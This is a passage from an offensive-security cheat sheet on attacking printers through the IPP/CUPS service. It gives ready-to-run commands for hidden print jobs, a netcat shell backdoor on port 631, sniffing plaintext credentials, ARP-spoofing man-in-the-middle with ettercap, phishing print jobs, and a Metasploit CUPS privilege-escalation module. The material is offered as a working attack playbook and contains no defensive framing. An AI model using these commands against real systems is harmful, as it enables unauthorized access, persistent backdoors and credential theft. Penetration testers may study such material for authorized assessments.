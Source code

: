 *   **Tool:** \[\[IPPTool]]

    ```bash
    lp -d <printer_name> -o job-sheets=none <file>
    ```
* **Description:** Submit hidden or unauthorized print jobs that are not immediately visible in the queue.

#### Backdoor via IPP

*   **Tool:** \[\[NetCat]]

    ```bash
    nc -l -p 631 -e /bin/sh
    ```
* **Description:** Use the IPP service as a backdoor to maintain persistent access to the network.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 631"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### Man-in-the-Middle (MITM) Attack

*   **Tool:** \[\[ettercap]], \[\[BetterCap Cheat Sheet]]

    ```bash
    ettercap -Tq -i <interface> -M arp:remote /<target_ip>/ /<server_ip>/
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Phishing via IPP

*   **Tool:** \[\[LP]]

    ```bash
    lp -d <printer_name> -o job-name="Security Alert: Update Required" <phishing_file>
    ```
* **Description:** Submit a phishing print job that prompts users to enter credentials or visit a malicious website.

### Privilege Escalation

#### Exploit CUPS Misconfigurations

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/misc/cups_root_file_read
    ```
* **Description:** Exploits CUPS configuration vulnerabilities to gain elevated privileges on the target system.
